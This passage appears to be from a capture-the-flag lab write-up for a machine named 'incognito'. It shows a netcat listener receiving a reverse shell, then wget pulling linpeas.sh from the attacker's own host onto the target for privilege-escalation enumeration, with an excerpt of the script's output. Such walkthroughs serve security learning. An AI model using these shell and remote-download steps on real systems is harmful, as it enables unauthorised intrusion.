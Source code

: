 Got the connection
```
~$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.41.81 35388
bash: cannot set terminal process group (1167): Inappropriate ioctl for device
bash: no job control in this shell
www-data@incognito:/$ 
```

# Step 3 : post exploitation
We have 2 user `dev1` & `dve2` we dont permission to view dev1 so move to dev2 home directory to find usefull stuff

## User flag.txt
![image](https://github.com/user-attachments/assets/a35abe66-20d3-4644-8af1-6504651f1a46)

Rather than wasting time focusing on upgrading privillage, so for that im transfering linpeas.sh form my system to this maching in /dev/shm folder using python server
```bash
www-data@incognito:/dev/shm$ wget http://10.17.14.127:8000/linpeas.sh
wget http://10.17.14.127:8000/linpeas.sh
--2025-06-08 11:42:26--  http://10.17.14.127:8000/linpeas.sh
Connecting to 10.17.14.127:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847925 (828K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6%  145K 5s
    50K .......... .......... .......... .......... .......... 12%  306K 4s
   100K .......... .......... .......... .......... .......... 18%  300K 3s
   150K .......... .......... .......... .......... .......... 24% 4.17M 2s
   200K .......... .......... .......... .......... .......... 30% 6.12M 2s
   250K .......... .......... .......... .......... .......... 36%  324K 1s
   300K .......... .......... .......... .......... .......... 42% 8.29M 1s
   350K .......... .......... .......... .......... .......... 48% 16.8M 1s
   400K .......... .......... .......... .......... .......... 54% 9.86M 1s
   450K .......... .......... .......... .......... .......... 60% 4.63M 1s
   500K .......... .......... .......... .......... .......... 66%  353K 1s
   550K .......... .......... .......... .......... .......... 72% 7.18M 0s
   600K .......... .......... .......... .......... .......... 78% 6.78M 0s
   650K .......... .......... .......... .......... .......... 84% 54.4M 0s
   700K .......... .......... .......... .......... .......... 90% 13.0M 0s
   750K .......... .......... .......... .......... .......... 96% 6.88M 0s
   800K .......... .......... ........                        100% 35.9M=1.0s

2025-06-08 11:42:28 (795 KB/s) - 'linpeas.sh' saved [847925/847925]

www-data@incognito:/dev/shm$ 
```
Let execute script
```
╔══════════╣ Searching installed mail applications

╔══════════╣ Mails (limit 50)
   131159      4 -rw-r--r--   1 root     mail           90 Aug 11  2021 /var/mail/dev1
   131159      4 -rw-r--r--   1 root     mail           90 Aug 11  2021 /var/spool/mail/dev1
```
